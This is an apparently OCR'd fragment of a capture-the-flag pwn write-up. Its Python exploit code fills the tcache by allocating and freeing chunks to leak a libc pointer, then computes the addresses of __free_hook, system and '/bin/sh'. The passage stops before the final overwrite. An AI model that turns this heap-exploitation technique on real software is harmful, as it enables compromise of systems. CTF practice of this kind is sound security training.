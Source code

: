 ```python 
    return op2('/', w, l)

def set(w, l, f):
    return op3('+', w, l, f)

def zero(w, l):
    return op4('-', w, l)

def w(num):
    return 'w' * num 

def s(num):
    return 's' * num 

def a(num):
    return 'a' * num 

def d(num):
    return 'd' * num 

def show():
    return 'p'
```

泄漏libc  

```python 
def exp1():

    payload = b''
    payload += map(0x10, 0x10)
    for i in range(8):
        payload += new(0, i, 0x90,'a')
    payload += new(1, 1, 0x20, 'b')
    for i in range(8):
        payload += dele(0, i)
    for i in range(7):
        payload += new(0, i, 0x90,'a')
    payload += new(0, 7, 0x90, 'a'*7)
    payload += show()
    payload += w(1)

    sla("cmd>", payload)

    for i in data:
        sl(i)

    ru('a' * 7 + '\n')
    blibc = u64(cn.recvuntil("\npos:1,1", True).ljust(8, b'\x00')) + 0x4000000000 - 0x154ad0
    slog['blibc'] = blibc

    hfree  = blibc + 0x156630 
    system = blibc + 0x3f2c8
    binsh  = blibc + 0x128720
    slog['hfree']  = hfree
    slog['system'] = system 
    slog['binsh']  = binsh 

```
